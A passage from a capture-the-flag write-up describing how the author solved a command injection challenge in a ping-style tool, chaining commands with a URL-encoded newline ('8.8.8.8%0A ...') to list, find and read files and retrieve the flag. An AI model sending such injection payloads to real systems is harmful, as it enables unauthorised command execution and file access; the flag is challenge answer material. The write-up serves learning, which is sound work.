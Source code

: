    This revealed several files, including `mission_briefing.txt`.

4. I tried reading the contents of `mission_briefing.txt` using `more` (since `cat` wasn't working, so i searched on google to find any alternatives of `cat`) with the command `8.8.8.8%0A more mission_briefing.txt`:

   ```
   ================= OPERATION: SILENT ECHO =================
                   CLASSIFICATION: BLACK ICE

   Agent, your objective is to recover the Blacksite Key.
   Our intel confirms it’s hidden deep within the AetherCorp network.
   =========================================================
   ```

   The file hinted at a hidden key deep within the network.

5. I used the `find` command to locate directories related to AetherCorp or Aether. So i used the `file` command to search the location of the folder if it exists from the root directory:

   ```bash
   8.8.8.8%0A find / -name aethercorp
   ```

   This returned `/var/lib/aethercorp` as the only accessible folder with no permission constraints.

6. Exploring further i listed further and then after some more hit and trials found the `archive` folder and I found a hidden `.secrets` directory within `/var/lib/aethercorp/archive` using:

   ```bash
   8.8.8.8%0A ls /var/lib/aethercorp/archive -a
   ```

   Inside the `.secrets` directory was a file called `blacksite_key.dat`.

7. Finally, I viewed the contents of `blacksite_key.dat` using:

   ```bash
   8.8.8.8%0A more /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
   ```

   This revealed the flag.
   ```bash
   4 packets transmitted, 4 received, 0% packet loss, time 3003ms
   rtt min/avg/max/mdev = 3.918/3.966/4.015/0.038 ms
   ::::::::::::::
   /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
   ::::::::::::::
   citadel{bl4ck51t3_4cc3ss_gr4nt3d}
   ```

## What I learned
This challenge taught me about:
- Command Injection using `%0A` to chain commands in restricted environments.
- Alternative File Viewing using tools like `more` or `less` when `cat` is unavailable or not allowed.
- Navigating through system directories to uncover hidden files and folders.
- Understanding how to interpret subtle hints left behind in logs.
